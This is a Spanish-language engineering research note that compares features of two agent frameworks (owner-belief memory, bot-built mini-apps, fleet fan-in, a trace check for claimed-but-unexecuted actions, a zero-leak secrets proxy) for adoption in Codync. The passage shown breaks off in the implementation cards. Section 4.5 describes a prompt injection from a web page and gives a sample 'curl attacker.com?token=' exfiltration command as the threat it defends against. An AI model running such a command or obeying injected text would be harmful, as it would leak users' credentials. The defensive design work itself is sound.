



# Investigacin de Implementaciones Novedosas: bdots y mercury-agent para Codync

**Fecha:** 2026-10-25  
**Estado:** Investigacin tcnica y catlogo arquitectnico; sin cambios de cdigo en esta fase.  
**Alcance de anlisis:**
- Repositorio **bdots** (`C:\Users\Edwin Villeda\Documents\Repositorios\bdots` - `fayazara/bdots`, Commit `ce94160`, Licencia MIT).
- Repositorio **mercury-agent** (`C:\Users\Edwin Villeda\Documents\Repositorios\mercury-agent` - `cosmicstack-labs/mercury-agent`, Commit `397200d`, Licencia MIT).
- Contraste con el estado de **Codync** en su rama base y con las dems ramas activas en curso.

---

## 1. Resumen Ejecutivo

Este documento presenta una auditora exhaustiva de dos repositorios punteros de agentes autnomos: **bdots** (un sistema de bots autnomos con micro-computadoras y micro-aplicaciones web creado sobre Cloudflare) y **mercury-agent** (un orquestador continuo 24/7 con modelo probabilstico del propietario, flotas tipadas, companion multimodal nativo y autora de habilidades).

El objetivo es **identificar especficamente aquellas arquitecturas, patrones, herramientas y mecanismos que:**
1. **NO estn implementados** en Codync actualmente.
2. **NO figuran en la documentacin previa** de `docs/` o `docs/nuevo thndr/`.
3. **NO se estn trabajando** en ninguna de las dems ramas abiertas en Codync ni en los repositorios auditados.

Ambos proyectos estn bajo licencia permisiva **MIT**, lo que permite adaptar, donar e implementar sus contratos limpios directamente en el daemon Rust de Codync (`host/`) y en sus clientes (Desktop, Android, iOS y TUI).

```mermaid
flowchart TD
  subgraph Repositorios Analizados
    B["bdots (fayazara/bdots)<br/>MIT - Commit ce94160"]
    M["mercury-agent (cosmicstack-labs)<br/>MIT - Commit 397200d"]
  end

  subgraph Filtro de Exclusin
    E1["Est ya en Codync? &#10060;"]
    E2["Est en docs/ o nuevo thndr/? &#10060;"]
    E3["Se trabaja en otras ramas abiertas? &#10060;"]
  end

  subgraph 12 Grandes Descubrimientos Exclusivos
    D1["1. Modelo del Propietario y Creencias Probabilsticas (ADR-026)"]
    D2["2. Apps Web Interactivas Generadas por Bots + AppLive WebSocket"]
    D3["3. Bucle de Auto-Reparacin de Frontend (_error reporting)"]
    D4["4. Sntesis Autnoma de Habilidades (Self-Made Skills ADR-027)"]
    D5["5. Flota con Tareas Tipadas y Fan-In Agrupado (ADR-020/021)"]
    D6["6. Veredicto de Ejecucin Auditado por Traza (Antialucinacin)"]
    D7["7. Companion Multimodal Nativo Optimus con Voz Realtime"]
    D8["8. Interrupcin Fsica de Ratn y Filtro de Credenciales"]
    D9["9. Proxy Zero-Leak de Secretos con Redaccin Triple"]
    D10["10. Grabacin de Demostraciones en Navegador (Teach Demo)"]
    D11["11. Tablero Kanban SQLite con Vinculacin a Sub-Agentes"]
    D12["12. Bloqueos de Archivo Multi-Lector/Escritor Exclusivo"]
  end

  B --> E1 & E2 & E3
  M --> E1 & E2 & E3
  E1 & E2 & E3 --> D1 & D2 & D3 & D4 & D5 & D6 & D7 & D8 & D9 & D10 & D11 & D12
```



---

## 2. Auditora de Ramas Abiertas: Qu se est trabajando vs. Qu queda fuera

Para garantizar el cumplimiento estricto del requerimiento, se realiz un mapeo de todas las ramas abiertas activas en Codync, bdots y mercury-agent:

| Repositorio | Rama | Foco de Trabajo Actual | Colisiona con este anlisis? |
|---|---|---|---|
| **Codync** | `deska/Implementar-Bloque-B-Android` | Bsqueda de modelos por nombre/ID/descripcin en Android | No |
| **Codync** | `deska/Implementar-Bloque-D-en-Android` | Mejoras de chat y visualizacin de contenido en Android | No |
| **Codync** | `deska/Implementar-Bloque-E-Android` | Mdulo de gancho para terminal-session en host + Android E | No |
| **Codync** | `deska/Implementar-Funciones-de-Coucou` | Personajes visuales (mascotas) que siguen el puntero con la mirada | No |
| **Codync** | `deska/Implementar-Mejoras-Del-Bloque-C` | Ajustes de modelos y tags de versiones en Android | No |
| **Codync** | `deska/Implementar-Protecci-n-SSRF` | Filtro SSRF extrado de rakazo para peticiones salientes | No (complementario) |
| **Codync** | `deska/Mejorar-UI-UX-de-Openstark` | Ajustes estticos en integracin OpenStark | No |
| **Codync** | `feat/bot-catalog-teams` | Catlogo de bots preconfigurados y equipos coordinadores | No (foco en creacin inicial) |
| **Codync** | `feat/openmausbot-integration` | Runtime de OpenMausBot, sandbox, CDP browser, Chief of Staff | No (runtime bsico) |
| **Codync** | `feat/usage-antigravity-android-pairing`| Reporte de cuota Antigravity y paginacin en la isla | No |
| **Codync** | `integrate/android-windows-wip` | Correcciones de escape en scripts de shell Windows | No |
| **Codync** | `integrate/upstream-2.24` | Soporte de `--reply-to` en CLI en vez de `--thread` | No |
| **bdots** | `origin/ui-motion-and-shared-connections` | Animaciones de UI y conexiones a nivel de usuario (fusionado a main) | No |
| **mercury-agent**| `origin/feat/mcp-client` | SDK de cliente MCP, endpoints `/api/mcp` y doctor MCP | No |
| **mercury-agent**| `origin/feat/plugin-system` | Solucin a carga en caliente de plugins en runtime activo | No |
| **mercury-agent**| `origin/fix/96-standalone-sqlite` | Soporte para binarios standalone de SQLite | No |
| **mercury-agent**| `origin/fix/bot-shared-path-escape` | Prevencin de escape relativo en carpetas compartidas | No |

> [!IMPORTANT]
> Ninguna de las ramas abiertas est desarrollando: el modelo probabilstico de creencias (ADR-026), la generacin de aplicaciones interactivas con WebSockets (AppLive), el bucle de auto-reparacin de frontend (_error), la sntesis automtica de skills desde trazas, el fan-in por lotes con reduccin de desperdicio de tokens, la proteccin zero-leak con redaccin triple de secretos, ni el companion nativo multimodal Optimus.

---

## 3. Matriz de Capacidades: bdots vs mercury-agent vs Codync

| Capacidad / Mecanismo | bdots (`fayazara`) | mercury-agent (`cosmicstack`) | Codync Actual | Estado y Oportunidad para Codync |
|---|---|---|---|---|
| **Modelo del Usuario / Memoria** | Hechos en SQLite + `/memory/*.md` + filtro Jev | **Creencias Probabilsticas (ADR-026)** con soporte/contra, rasgos de trabajo y bitemporalidad | Memorias en SQLite (`codync-mem`), bsqueda y sueos de consolidacin | **Adoptar ADR-026**: Evolucin de hechos a creencias probabilsticas con evidencia y rasgos funcionales. |
| **Aplicaciones de Bots** | **Bot-Built Apps + AppLive (`_live`, `_data`, `_error`, `_tell`)** | No presente | No presente | **Implementacin pionera**: Los bots pueden construir mini-apps interactivas con auto-sanacin de errores. |
| **Sntesis de Habilidades** | Grabacin CDP (`teach.ts`) | **Sntesis automtica (ADR-027)** tras flujo multietapa o correccin | Skills estticas preconfiguradas | **Adoptar ambos**: Habilidad auto-generada tras xito + grabacin paso a paso en navegador. |
| **Orquestacin de Flota** | RPC va UserHub | **Tareas tipadas + Fan-In por lotes + Pipelines (ADR-021)** | Subagentes y agentes como herramientas | **Adoptar Fan-In**: El lder despacha N tareas y despierta 1 sola vez con el resultado agregado. |
| **Veredicto de Ejecucin** | No formalizado | **Auditora de Traza (ADR-020)**: detecta "claimedWithoutAction" | Estado de proceso y cdigo de salida | **Adoptar**: Sancionar alucinaciones donde el bot dice haber completado sin ejecutar herramientas. |
| **Gobernanza de Presupuesto** | Lmite por AI Gateway | **Cap diario por bot + cap de flota + pausa tras 3 fallos** | Cuotas en cloud | **Adoptar en host local**: Evita que bots en segundo plano consuman tokens descontroladamente. |
| **Companion de Escritorio / Voz** | No presente | **Optimus (Rust nativo)**: pantalla, audio realtime, interrupcin por ratn fsico | Remote Screen helpers (macOS/Linux) | **Integrar en host/apps**: PTT con chimes, cancelacin por movimiento de ratn y canal de voz realtime. |
| **Seguridad de Credenciales** | **Proxy de Secretos Zero-Leak con Redaccin Triple** | Deny-list de comandos | Inyeccin en tiempo de compilacin / Keychain | **Adoptar Proxy Zero-Leak**: El modelo jams lee el token ni puede ser engaado para ecoarlo. |
| **Gestin de Tareas Visual** | Tarjetas de estado bsicas | **Tablero Kanban ACID SQLite vinculado a Sub-Agentes** | Vista de hilos y sesiones | **Adoptar Kanban**: Tablero visual interactivo donde cada tarjeta es accionada por un sub-agente. |
| **Prevencin de Bucles** | **LoopGuard JSON estable + Poda de imgenes/pginas** | Circuit breaker en plugins | Timeout general | **Adoptar LoopGuard**: Freno determinista tras 5 llamadas idnticas consecutivas. |
| **Concurrencia de Archivos** | No presente | **FileLockManager (Reader/Writer)** | Concurrencia a nivel de OS | **Adoptar**: Bloqueos compartidos de lectura y exclusivos de escritura en disco. |
| **Deduplicacin de Rutinas** | **mark_reported / was_reported con TTL** | Routine gating por streak | Cron simple sin memoria de envo | **Adoptar**: Evitar que rutinas peridicas repitan notificaciones ya vistas por el usuario. |

---

## 4. Anlisis Profundo de las Grandes Implementaciones

### 4.1. Modelo del Propietario: Creencias Probabilsticas y Rasgos Funcionales (mercury-agent ADR-026)

#### El Problema en los Sistemas Actuales
En la mayora de los sistemas de agentes (incluyendo la memoria actual de Codync), la memoria almacena hechos textuales estticos. Esto sufre de 4 defectos graves:
1. **Contradicciones destructivas:** Si el usuario dice "ahora uso pnpm", el sistema borra "usa npm" o conserva ambos en conflicto.
2. **Falta de evidencia:** No se sabe cuntas veces se observ un patrn ni en qu contexto es vlido.
3. **Ausencia de rasgos funcionales:** El modelo no calibra cmo trabajar con el usuario (si prefiere respuestas concisas, si tolera decisiones autnomas o si exige confirmacin).
4. **Opacidad:** El usuario no sabe qu cree el agente sobre l hasta que el agente comete un error.

#### La Solucin en mercury-agent (`src/memory/beliefs.ts`)
Mercury transforma las memorias en **Creencias Probabilsticas Bitemporales**:
- Una creencia no es un hecho inmutable; es una afirmacin con **evidencia a favor (`support`) y en contra (`against`)**.
- **Ciclo de Vida Formal:**
  - `candidate`: observada una vez; no altera la conducta an.
  - `held`: confirmada en al menos 2 sesiones independientes (`supportSessions >= 2`).
  - `confirmed`: validada explcitamente por el usuario.
  - `contested`: ha aparecido evidencia en contra; el bot puede preguntar amablemente.
  - `retired`: superada por una nueva creencia (`supersededBy`), manteniendo la traza histrica.
- **Bitemporalidad:** Cada creencia tiene `validFrom` y `validTo`. Nada se elimina a ciegas; si deja de ser vlida, se fija `validTo`.
- **Dimensiones de Rasgos de Trabajo (`TRAIT_DIMENSIONS`):**
  - `brevity`: `terse` | `balanced` | `thorough`.
  - `autonomy`: `ask-first` | `ask-when-risky` | `just-do-it`.
  - `decision-style`: `options` | `recommendation` | `decide-for-me`.
  - `formality`: `casual` | `neutral` | `formal`.
  - `feedback-style`: `blunt` | `explains` | `silent-redo`.
  - `rhythm`: `morning` | `daytime` | `evening` | `late-night`.
  - `risk:<dominio>`: `cautious` | `normal` | `bold`.
  - `expertise:<dominio>`: `novice` | `competent` | `expert`.



- **Notificacin Transparente:** Cuando una creencia se promueve o cambia la conducta, el agente emite una notificacin de una lnea al final de su mensaje: *"He recordado que prefieres comandos directos sin explicaciones extensas (deshacer)"*.

---

### 4.2. Apps Web Interactivas Creadas por Bots con Runtime AppLive (bdots)

#### La Innovacin de bdots (`src/agents/apps-runtime.ts` y `src/agents/app-store.ts`)
En lugar de limitarse a entregar texto, CSVs o fragmentos en el chat, un bot en bdots puede compilar y publicar **mini-aplicaciones web interactivas completas** para el usuario.

Ruta de publicacin: `/apps/<userId>/<botId>/<slug>/<token>/<path>`

#### Componentes Clave del Runtime de Aplicaciones:
1. **Aislamiento Sandbox de Alta Seguridad:**
   La respuesta HTTP inyecta cabeceras `Content-Security-Policy: sandbox allow-scripts allow-forms;`. El cdigo de la app vive en un origen opaco completamente aislado de las cookies de la app principal, de las APIs del host y de los tokens de sesin.
2. **Biblioteca de Ayuda del Cliente (`_bdots.js`):**
   Inyecta en la pgina un objeto global `window.bdots` con utilidades de datos y comunicacin reactiva.
3. **Colecciones y Micro-DB en Memoria/SQLite (`_data`):**
   La app puede hacer llamadas REST simples para persistir y leer datos estructurados:
   - `GET /apps/.../_data/items`: lista elementos.
   - `PUT /apps/.../_data/items`: guarda un registro.
   - `DELETE /apps/.../_data/items/:id`: borra un registro.
4. **Sincronizacin Reactiva va WebSocket (`_live` / `AppLive`):**
   Las apps y el bot estn conectados a un WebSocket reactivo. Cuando el bot actualiza datos o la app los modifica, se emite `{ type: "change", collection, id }`. Si el bot genera una nueva versin de cdigo HTML/JS, se emite `{ type: "reload", version }` provocando un refresco automtico instantneo.
5. **Accin Interactiva Directa hacia el Bot (`_tell`):**
   Los botones de la aplicacin web pueden enviar intenciones de vuelta al bot mediante `POST /_tell` con `{ text: "Generar reporte Q3 con estos filtros" }`, disparando un nuevo turno del bot en contexto.
6. **Bucle de Auto-Reparacin de Frontend (`_error`):**
   Si la aplicacin web generada tiene cualquier error de JavaScript en runtime (`window.onerror`), el script inyectado hace automticamente:
   ```js
   fetch("_error", {
     method: "POST",
     body: JSON.stringify({ message: err.message, stack: err.stack, version })
   });
   ```
   El host recibe este error y **despierta al bot automticamente** con la traza exacta del fallo para que inspeccione el cdigo, lo corrija y vuelva a publicar la aplicacin sin intervencin humana.



---

### 4.3. Sntesis Autnoma de Habilidades: Self-Made Skills (mercury-agent ADR-027)

#### El Problema
Los agentes resuelven tareas complejas (ej. compilar un proyecto especfico, generar certificados, realizar scraping de un sitio particular). Sin embargo, en la siguiente sesin, el agente vuelve a empezar desde cero cometiendo los mismos intentos fallidos.

#### La Solucin en mercury-agent (`src/bots/skill-synthesis.ts`)
Mercury introduce la generacin autnoma de **habilidades hechas por el propio agente**:
- **Disparador Automtico (`MIN_TOOLS_FOR_SYNTHESIS = 4`):**
  Cuando un bot completa un flujo multi-etapa verificado exitosamente o tras corregir un error sealado por el usuario, el sistema evala si el procedimiento es repetible.
- **Cuarentena y Separacin Estricta:**
  Las habilidades autogeneradas nunca se mezclan con las oficiales. Se guardan en `skills/self-made/<slug>/SKILL.md` bajo el metadato:
  ```yaml
  name: deploy-staging-worker
  category: self-made
  origin: mercury
  verified: false
  uses: 1
  last_used: 2026-10-25
  ```
- **Validacin Rigurosa:** Debe contener al menos un objetivo claro, pasos de ejecucin de al menos 200 caracteres, lnea de verificacin y cero secretos/tokens hardcodeados.
- **Higiene y Ciclo de Vida Automtico:**
  - Si una habilidad autogenerada no se usa en 30 das, pasa a estado inactivo (`.disabled`).
  - Lmite estricto de 40 habilidades autogeneradas activas por agente; las ms antiguas y menos usadas se archivan para evitar sobrecargar el prompt de descubrimiento.

---

### 4.4. Orquestacin de Flota: Tareas Tipadas, Fan-In por Lotes y Veredictos de Traza (mercury-agent ADR-020 y ADR-021)

#### 1. Fan-In por Lotes (`tasks.ts` y `BotManager.delegate`)
En sistemas multi-bot tradicionales, cuando un lder delega a 5 bots subordinados (ej. 5 investigadores), cada subordinado enva un mensaje individual al lder, forzando 5 turnos de ejecucin y relectura de contexto del lder (desperdiciando cientos de miles de tokens).

Mercury implementa **Lotes con Poltica de Despertar Fan-In**:
- El bot lder emite un lote de tareas: `createFleetTasksTool({ tasks: [...], wakePolicy: 'all', deadlineMinutes: 120 })`.
- Cada subordinado ejecuta su tarea de forma asncrona en su propio carril.
- **El lder duerme y slo se despierta 1 VEZ** cuando todas las tareas del lote han concluido (o al vencer el deadline), recibiendo un `batchDigest` estructurado con los entregables listos.
- **Resultado:** Reduccin del 70% al 85% en tokens de coordinacin.

#### 2. Pipelines Basados en Datos Puros
En lugar de requerir que el bot lder coordine manualmente paso a paso, se definen etapas de pipeline como datos puros:
```yaml
pipeline:
  stages:
    - name: research
      bot: researcher
      input: "{{task}}"
    - name: draft
      bot: writer
      input: "{{previous}}"
    - name: review
      bot: editor
      input: "{{previous}}"
```
Cada etapa pasa su salida automticamente a la siguiente (`{{previous}}`). El lder slo es notificado al final con el entregable consolidado.

#### 3. Veredicto de Ejecucin y Antialucinacin (Trace Outcome)
Muchos agentes dicen en su respuesta final: *"He generado el reporte y actualizado la base de datos"*, cuando en realidad no ejecutaron ninguna herramienta (alucinacin de finalizacin).

Mercury implementa un **Juez de Traza (`outcome` evaluation)**:
- Inspecciona las llamadas a herramientas reales en el turno:
  - `deliverable`: se escribi un archivo fuera de la sandbox en la carpeta de entregables.
  - `action`: se ejecut un comando modificador o escritura efectiva.
  - `delegated`: se despach una tarea vlida a otro bot.
  - `message`: interaccin conversacional requerida.
  - `none`: ninguna accin tangible detectada.
- Si una rutina o tarea autnoma termina con `none` pero el modelo afirm haber actuado (`claimedWithoutAction`), el turno se marca como fallido y recibe un empujn corrector.
- Si una rutina cron acumula **3 turnos consecutivos con resultado `none`**, la rutina se **pausa automticamente** para proteger la cuota del usuario.

---

### 4.5. Seguridad Zero-Leak: Proxy de Secretos y Redaccin Triple (bdots `secrets.ts`)

#### El Peligro
Cuando un bot necesita autenticarse contra una API externa, entregarle el API Token en su prompt o en el entorno de la herramienta es peligroso:
- Puede filtrarse en el historial de chat o logs.
- Un prompt injection indirecto desde una pgina web puede forzar al bot a exfiltrar el token (`curl attacker.com?token=...`).

#### La Solucin en bdots (`src/agents/secrets.ts`)
1. **El Bot Jams Conoce el Secreto:**
   El usuario ingresa el secreto en una tarjeta con mscara en la interfaz. El secreto se guarda en el host vinculado a un origen HTTPS exacto (ej. `https://api.github.com`).
2. **Herramienta `secret_request`:**
   El bot slo conoce el nombre del secreto (`github_token`) y ejecuta:
   ```json
   {
     "secret": "github_token",
     "url": "https://api.github.com/user/repos",
     "method": "GET"
   }
   ```
3. **Validacin Estricta de Origen:**
   El host valida que la URL solicitada coincida exactamente con el origen HTTPS registrado. Si el bot intenta enviar la peticin a otro host, se bloquea de inmediato.
4. **Inyeccin Out-of-Band:**
   El host inyecta la cabecera `Authorization: Bearer <token>` directamente en la conexin HTTP; el token jams entra en el proceso o memoria del agente.
5. **Redaccin Triple en Respuestas (Anti-Echo):**
   Si el servidor remoto responde reflejando el token (por ejemplo en un error o debug), el host aplica una funcin de redaccin que busca y sustituye por `[redacted]` tres formas distintas:
   - El token en texto plano (`token`).
   - El token codificado en URL (`encodeURIComponent(token)`).
   - El token codificado en Base64 (`btoa(token)`).

---

### 4.6. Optimus: Companion Nativo Multimodal con Voz Realtime y Parada Fsica (mercury-agent `plugins/optimus`)

#### Arquitectura
Escrito en Rust nativo (`plugins/optimus/companion`), Optimus funciona como un demonio complementario de altsimo rendimiento:
1. **Canal Multimodal de Audio en Tiempo Real:**
   Conexin WebSocket bidireccional de baja latencia con modelos de voz (Gemini Realtime API, Cartesia, Deepgram).
2. **Gesto de Voz Push-To-Talk y Sealizacin Sonora:**
   - Tecla global configurable (ej. `Ctrl+Alt+M`).
   - Feedback acstico no intrusivo:
     - *Chime ascendente:* Inicio de escucha.
     - *Chime descendente:* Fin de sesin.
     - *Tic peridico suave:* Indica que el agente contina trabajando en segundo plano mientras el usuario hace otra cosa.
3. **Parada de Emergencia Fsica por Movimiento de Ratn:**
   Si el bot est controlando el ordenador (moviendo el cursor o tecleando) y el usuario **mueve fsicamente su ratn de hardware**, el demonio Rust detecta la discrepancia fsica e **interrumpe inmediatamente la operacin del agente**, devolviendo el control total al humano en milisegundos.
4. **Barrera de Credenciales en Pantalla:**
   Optimus detecta campos de entrada sensibles (contraseas, CVVs, cdigos 2FA) y **se niega terminantemente a teclearlos**: pausa la ejecucin y pide verbalmente al usuario que ingrese la clave antes de continuar.

---

### 4.7. Tablero Kanban SQLite Integrado con Sub-Agentes (mercury-agent `board-manager.ts`)

#### Caractersticas del Motor de Kanban
- **Persistencia Transaccional:** Motor SQLite optimizado con fallback en JSON debounced para mxima portabilidad.
- **Vinculacin Nativa con el Supervisor de Sub-Agentes:**
  Cada tarjeta del tablero puede vincularse directamente con un agente o sub-agente ejecutor.
- **Ciclo de Estados y Presupuestos:**
  Las tarjetas rastrean `tokensUsed`, `tokenBudget`, y se pausan automticamente (`pausedForTokens = true`) si exceden su lmite, emitiendo una solicitud de autorizacin al usuario.
- **Grafo de Dependencias:**
  Soporte para `dependsOn: [cardId1, cardId2]`. Un sub-agente asignado a una tarjeta bloqueada espera automticamente a que las tarjetas previas estn en estado `done`.
- **Transmisin en Tiempo Real:** Emisin de Server-Sent Events (SSE) hacia la interfaz de usuario en `/api/kanban/events`.

---

### 4.8. Salvaguardas de Turno: LoopGuard y Poda de Contexto (bdots `guards.ts`)

#### 1. Stable-JSON LoopGuard
Evita que el agente quede atrapado en bucles infinitos llamando exactamente a la misma herramienta con los mismos parmetros:
- Serializa los argumentos ordenando deterministamente las claves del JSON (de modo que `{ a: 1, b: 2 }` y `{ b: 2, a: 1 }` produzcan la misma clave).
- Si detecta 5 llamadas consecutivas idnticas (`MAX_IDENTICAL_CALLS = 5`), corta el bucle e inyecta un mensaje coercitivo al modelo: *"Has ejecutado esta llamada idntica 5 veces consecutivas sin cambio. Detente y consulta al usuario."*

#### 2. Poda de Imgenes y Pginas Caducadas
Durante un turno largo de investigacin o navegacin web:
- Las pginas web anteriores quedan obsoletas a medida que el bot avanza. El sistema slo mantiene completas las ltimas 3 pginas consultadas (`KEEP_PAGE_RESULTS = 3`); las ms antiguas se resumen automticamente a 1,000 caracteres.
- Se retienen nicamente las **2 imgenes/capturas ms recientes** (`KEEP_IMAGES = 2`), descartando las imgenes anteriores para evitar saturar el ancho de banda y la ventana de contexto de visin.

---

### 4.9. FileLockManager: Concurrencia Segura en Multiagente (mercury-agent `file-lock.ts`)

#### La Necesidad
Cuando mltiples bots o sub-agentes trabajan simultneamente en un workspace compartido, pueden intentar leer y escribir el mismo archivo al mismo tiempo, corrompiendo datos o produciendo lecturas inconsistentes.

#### La Implementacin
`FileLockManager` implementa un patrn formal de **bloqueo multi-lector / escritor nico**:
- Mltiples agentes pueden adquirir simultneamente bloqueos de lectura (`mode: 'read'`) sobre una ruta normalizada.
- Un bloqueo de escritura (`mode: 'write'`) requiere exclusividad total: ningn otro agente puede estar leyendo ni escribiendo.
- Limpieza automtica y liberacin de bloqueos al concluir el turno o en caso de cancelacin.

---

## 5. Catlogo de Fichas Tcnicas de Implementacin para Codync

A continuacin se presentan las 12 fichas tcnicas accionables diseadas para ser implementadas en Codync.

---

### Ficha 01: Sistema Probabilstico de Creencias del Propietario (The Owner Model)
- **Origen:** `mercury-agent` (`src/memory/beliefs.ts`, `docs/owner-model.md`, ADR-026).
- **Problema en Codync:** La memoria del host (`codync-mem`) guarda fragmentos planos sin registro de cuntas veces se observ una preferencia, sin capacidad de resolver contradicciones sin borrar, y sin inferir dimensiones de trabajo clave (brevedad, autonoma, riesgo).
- **Solucin para Codync:**
  - Crear en `host/crates/memory` la tabla `beliefs` y `belief_evidence` en SQLite.
  - Implementar los estados `candidate`, `held`, `confirmed`, `contested` y `retired`.
  - Agregar la inferencia de rasgos de trabajo (`brevity`, `autonomy`, `decision_style`, `formality`).
  - Inyectar en el prompt del sistema la seccin condensada "About Owner" y "How to work with Owner".
  - Emitir una notificacin de una lnea en el cliente Desktop/Mvil cuando una creencia pasa a `held` o `confirmed`.
- **Archivos a modificar/crear:**
  - `host/crates/memory/src/beliefs.rs` (nuevo)
  - `host/crates/memory/src/traits.rs` (nuevo)
  - `host/src/api/memory.rs`
  - `apps/desktop/src/renderer/components/SettingsModal.tsx` (vista de creencias y rasgos)
  - `apps/android/app/src/main/java/app/codync/app/settings/`
- **Esfuerzo:** M (2 semanas).
- **Valor:** Extraordinario. Transforma al agente de un almacn de texto a un compaero que comprende y se adapta fielmente a su usuario.

---

### Ficha 02: Generador de Aplicaciones Web de Bots con Runtime AppLive
- **Origen:** `bdots` (`src/agents/apps-runtime.ts`, `src/agents/app-store.ts`).
- **Problema en Codync:** Los bots slo pueden entregar respuestas en chat o archivos planos. No hay un formato dinmico para dashboards, formularios o exploradores interactivos de datos.
- **Solucin para Codync:**
  - Crear en el host un servidor de apps sandboxed bajo `/api/apps/:botId/:slug/:token/*`.
  - Inyectar cabeceras CSP con sandbox estricto (origen opaco).
  - Proveer endpoints estndar: `_data` (micro-almacn de colecciones JSON) y `_live` (WebSocket de recarga y sincronizacin).
  - Agregar herramientas al bot: `save_app`, `list_apps`, `delete_app`, `app_data_put`, `app_data_list`.
  - Integrar en el Desktop y en las apps mviles un visor de mini-apps en panel dividido.
- **Archivos a modificar/crear:**
  - `host/src/apps_runtime/` (nuevo mdulo en Rust)
  - `host/src/tools/apps.rs` (herramientas para el agente)
  - `apps/desktop/src/renderer/components/BotAppPanel.tsx` (nuevo)
  - `apps/android/app/src/main/java/app/codync/design/CodyncWebView.kt`
- **Esfuerzo:** L (3 semanas).
- **Valor:** Revolucionario. Permite a los bots entregar software funcional interactivo a medida.

---

### Ficha 03: Bucle de Auto-Reparacin de Frontend de Mini-Apps (`_error`)
- **Origen:** `bdots` (`src/agents/apps-runtime.ts:50`).
- **Problema en Codync:** Si un bot genera cdigo de interfaz con un bug de JavaScript, la app queda rota y el usuario tiene que copiar el error manualmente en el chat para pedir ayuda.
- **Solucin para Codync:**
  - En la plantilla base inyectada (`_codync.js`), capturar `window.addEventListener('error')` y `unhandledrejection`.
  - Enviar automticamente un `POST /api/apps/.../_error` con `{ message, stack, source, version }`.
  - El host detecta el reporte de error y programa automticamente un turno reactivo para el bot responsable: *"Tu aplicacin [slug] versin [X] fall con el siguiente error: [stack]. Corrgela y publica la versin [X+1]."*
  - Al republicar, el WebSocket de `_live` emite `{ type: "reload" }`, refrescando la app sin intervencin humana.
- **Archivos a modificar/crear:**
  - `host/src/apps_runtime/error_handler.rs`
  - `host/src/agent/loop.rs`
- **Esfuerzo:** S (3 das).
- **Valor:** Mgico. Auto-sanacin de software generado ante los ojos del usuario.

---

### Ficha 04: Sntesis Autnoma de Habilidades (Self-Made Skills)
- **Origen:** `mercury-agent` (`src/bots/skill-synthesis.ts`, ADR-027).
